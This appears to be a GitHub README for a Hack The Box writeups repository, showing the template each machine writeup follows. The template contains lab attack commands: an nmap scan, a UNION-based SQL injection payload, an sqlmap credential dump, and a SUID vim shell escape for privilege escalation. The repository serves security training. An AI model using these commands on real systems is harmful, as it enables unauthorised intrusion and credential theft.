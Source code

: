 # 🚩 HTB Writeups Repository

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![GitHub Stars](https://img.shields.io/github/stars/yourusername/htb-writeups)](https://github.com/yourusername/htb-writeups/stargazers)
[![Open Issues](https://img.shields.io/github/issues/yourusername/htb-writeups)](https://github.com/yourusername/htb-writeups/issues)

A curated collection of Hack The Box machine writeups with detailed technical analysis and reproducible methodologies.

🔗 **Live Preview**: [yourwebsite.com/htb-writeups](https://yourwebsite.com) (optional)

## 📌 Features
- **Structured Documentation**: Consistent format for easy navigation
- **Technical Depth**: Vulnerability explanations with CWE/CVE references
- **Tool Integration**: Commands for popular tools like `nmap`, `Metasploit`, and `gobuster`
- **Visual Guides**: Screenshots and network diagrams
- **Searchable Tags**: Filter by OS, difficulty, and attack vectors

## 🖥️ Writeup Structure
Each machine writeup includes:
```markdown
# Machine Name (Difficulty: ⭐️ Easy)
- **IP**: 10.10.10.xx
- **OS**: Linux/Windows
- **Date Solved**: YYYY-MM-DD

## 📋 Table of Contents
1. [Recon](#-recon)
2. [Exploitation](#-exploitation)
3. [Privilege Escalation](#-privilege-escalation)
4. [Key Takeaways](#-key-takeaways)

## 🔍 Recon
```bash
nmap -sV -sC -oA nmap/initial 10.10.10.xx
```
**Findings**:
- Port 80: Apache 2.4.29 (Ubuntu)
- Port 22: OpenSSH 7.6p1

## 💻 Exploitation
### Vulnerability: SQL Injection (CWE-89)
**Steps**:
1. Identified vulnerable parameter `id` in `/products.php`
2. Crafted UNION-based payload:
```sql
' UNION SELECT 1,@@version,3-- -
```
3. Extracted credentials via SQLMap:
```bash
sqlmap -u "http://10.10.10.xx/products.php?id=1" --dump
```

## 🚀 Privilege Escalation
**Technique**: SUID Binary Abuse (GTFOBins)
```bash
find / -perm -4000 2>/dev/null
/usr/bin/vim.basic --command=':!/bin/sh'
```

## 🎯 Key Takeaways
- Always sanitize user input in web applications
- Monitor for unnecessary SUID binaries
- **MITRE ATT&CK**: T1190 (Exploit Public-Facing Application)

---

## 🛠️ Tools Used
